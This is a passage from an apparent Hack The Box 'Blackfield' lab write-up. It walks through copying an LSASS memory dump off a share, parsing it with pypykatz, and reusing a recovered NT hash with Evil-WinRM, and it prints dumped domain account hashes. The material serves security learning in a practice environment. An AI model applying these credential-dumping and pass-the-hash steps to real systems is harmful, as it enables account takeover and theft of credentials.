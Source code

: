 ```
-rwxr-xr-x 1 root root 131983313 May 28  2020 ServerManager.zip                                        
-rwxr-xr-x 1 root root  33141744 May 28  2020 sihost.zip                     
-rwxr-xr-x 1 root root  33756344 May 28  2020 smartscreen.zip                                          
-rwxr-xr-x 1 root root  14408833 May 28  2020 svchost.zip
-rwxr-xr-x 1 root root  34631412 May 28  2020 taskhostw.zip
-rwxr-xr-x 1 root root  14255089 May 28  2020 winlogon.zip
-rwxr-xr-x 1 root root   4067425 May 28  2020 wlms.zip
-rwxr-xr-x 1 root root  18303252 May 28  2020 WmiPrvSE.zip
..a lot more files
```

The most interesting file here is the lsass.zip. Lsass is a built in Windows service that manages the security policies, the verification of logins, and other authentication related processes. We don't have write access in the share, but we can just copy it out of the share and extract it via `cp lsass.zip /path/to/some/directory && 7z e /path/to/copy`. This nets us a Mini DuMP dump file that we will extract information from using the tool pypykatz (we can install this simply with pip3 install pypykatz).

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]                                                     
└─# pypykatz lsa minidump lsass.DMP
//I'm going to filter the intersting bits.
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======                                                                       
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c   
        == MSV ==                                  
                Username: DC01$
                Domain: BLACKFIELD                                                                     
                LM: NA                                                                                 
                NT: b624dc83a27cc29da11d9bf25efea796                                                   
                SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368    
```

We can simply test if these hashes are valid by passing the NT hash into Evil-WinRM. Only the svc_backup account is able to authenticate.
